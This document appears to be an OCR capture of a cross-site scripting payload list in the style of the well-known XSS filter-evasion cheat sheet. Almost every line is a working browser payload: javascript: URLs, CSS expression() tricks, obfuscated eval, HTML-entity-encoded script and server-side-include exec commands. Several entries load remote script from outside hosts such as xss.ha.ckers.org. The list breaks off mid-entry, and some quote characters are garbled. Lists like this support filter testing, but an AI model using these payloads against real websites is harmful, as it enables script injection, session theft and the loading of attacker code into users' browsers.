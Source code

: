 &lt;TABLE BACKGROUND="javascript:alert('XSS')"&gt;
 
&lt;DIV STYLE="background-image: url(javascript:alert('XSS'))"&gt;
 
&lt;DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');"&gt;
 
&lt;DIV STYLE="width: expression(alert('XSS'));"&gt;
 
&lt;STYLE&gt;@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE&gt;
 
&lt;IMG STYLE='xss:expre\ssion(alert("XSS"))'&gt;
 
&lt;STYLE TYPE="text/javascript"&gt;alert('XSS');&lt;/STYLE&gt;
 
&lt;STYLE TYPE="text/css"&gt;.XSS{background-image:url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;A class="XSS"&gt;&lt;/A&gt;
 
&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:alert('XSS')")}&lt;/STYLE&gt;
 
&lt;BASE href="javascript:alert('XSS');//"&gt;
 
getURL("javascript:alert('XSS')")
 
a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
 
&lt;XML src="javascript:alert('XSS');"&gt;
 
"&gt; &lt;BODY&gt;&lt;SCRIPT&gt;function a(){alert('XSS');}&lt;/SCRIPT&gt;&lt;"
 
&lt;SCRIPT src="http://xss.ha.ckers.org/xss.jpg"&gt;&lt;/SCRIPT&gt;
 
&lt;IMG src="javascript:alert('XSS')"
 
&lt;!--#exec cmd="/bin/echo '&lt;SCRIPT SRC'"--&gt;&lt;!--#exec cmd="/bin/echo
'=http://xss.ha.ckers.org/a.js&gt;&lt;/SCRIPT&gt;'"--&gt;
 
&lt;IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode"&gt;
 
&lt;SCRIPT a="&gt;" src="http://xss.ha.ckers.org/a.js"&gt;&lt;/SCRIPT&gt;
 
&lt;SCRIPT ="&gt;" src="http://xss.ha.ckers.org/a.js"&gt;&lt;/SCRIPT&gt;
 
&lt;SCRIPT a="&gt;" '' src="http://xss.ha.ckers.org/a.js"&gt;&lt;/SCRIPT&gt;
 
&lt;SCRIPT "a='&gt;'" src="http://xss.ha.ckers.org/a.js"&gt;&lt;/SCRIPT&gt;
 
&lt;SCRIPT&gt;document.write("&lt;SCRI");&lt;/SCRIPT&gt;PT src="http://xss.ha.ckers.org/a.js"&gt;&lt;/SCRIPT&gt;
 
&lt;A href=http://www.gohttp://www.google.com/ogle.com/&gt;link&lt;/A&gt;
 
&lt;IMG SRC=javascript:alert(‘XSS’)&gt;
 
&lt;IMG SRC=# onmouseover=”alert(‘xxs’)”&gt;
 
&lt;IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”&gt;&lt;/img&gt;
 
&lt;img src=x onerror=”&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041″&gt;
 
&lt;IMG SRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;
 